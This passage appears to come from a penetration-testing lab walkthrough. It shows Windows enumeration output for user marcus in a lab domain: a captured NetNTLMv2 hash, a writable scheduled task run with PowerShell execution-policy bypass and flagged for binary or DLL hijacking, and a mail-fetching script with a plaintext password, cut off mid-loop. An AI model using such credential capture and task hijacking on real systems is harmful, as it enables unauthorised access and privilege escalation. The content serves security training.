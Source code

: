 ```powershell
����������͹ Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    marcus::BEYOND:1122334455667788:aab3427b180473a66cd2f63f93f930f3:010100000000000099e560251e0adb0154e5da8ae2e492fa000000000800300030000000000000000000000000200000dbf4aa38928eac57cb9ff284d371cd7ece368068d8356a166a2dfc70ffc77f4a0a00100000000000000000000000000000000000090000000000000000000000
```

```powershell
����������͹ Scheduled Applications --Non Microsoft--
� Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                  
    (BEYOND\marcus) exec_lnk: powershell -ep bypass -File C:\Users\marcus\Documents\exec.ps1
    Permissions file: marcus [AllAccess]
    Permissions folder(DLL Hijacking): marcus [AllAccess]
    Trigger: At 4:31 AM on 9/29/2022-After triggered, repeat every 00:01:00 indefinitely.
             At log on of BEYOND\marcus-After triggered, repeat every 00:01:00 indefinitely.
```

- `type Documents\exec.ps1`
```powershell
Function ExtractValidIPAddress($String){
    $IPregex='(?<Address>((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?))'
    If ($String -Match $IPregex) {$Matches.Address}
}

Clear-DnsClientCache
$server = "mailsrv1.beyond.com"
$port = 110
$enableSSL = $false
$username = "marcus"
$password = "DefrostNewsySupply5544"
$baseFolder = "C:\attachments"

function saveAttachment
{
    Param
    (
    [System.Net.Mail.Attachment] $attachment,
    [string] $outURL
    )

    New-Item -Path $outURL -ItemType "File" -Force | Out-Null

    $outStream = New-Object IO.FileStream $outURL, "Create"

    $attachment.contentStream.copyTo( $outStream )

    $outStream.close()
}

[Reflection.Assembly]::LoadFile("C:\Users\marcus\Documents\OpenPop.dll")


$pop3Client = New-Object OpenPop.Pop3.Pop3Client
$pop3Client.connect( $server, $port, $enableSSL )
$pop3Client.authenticate( $username, $password )
$messageCount = $pop3Client.getMessageCount()

for ( $messageIndex = 1; $messageIndex -le $messageCount; $messageIndex++ )
{
    #$uid = $pop3Client.getMessageUid( $messageIndex )
```
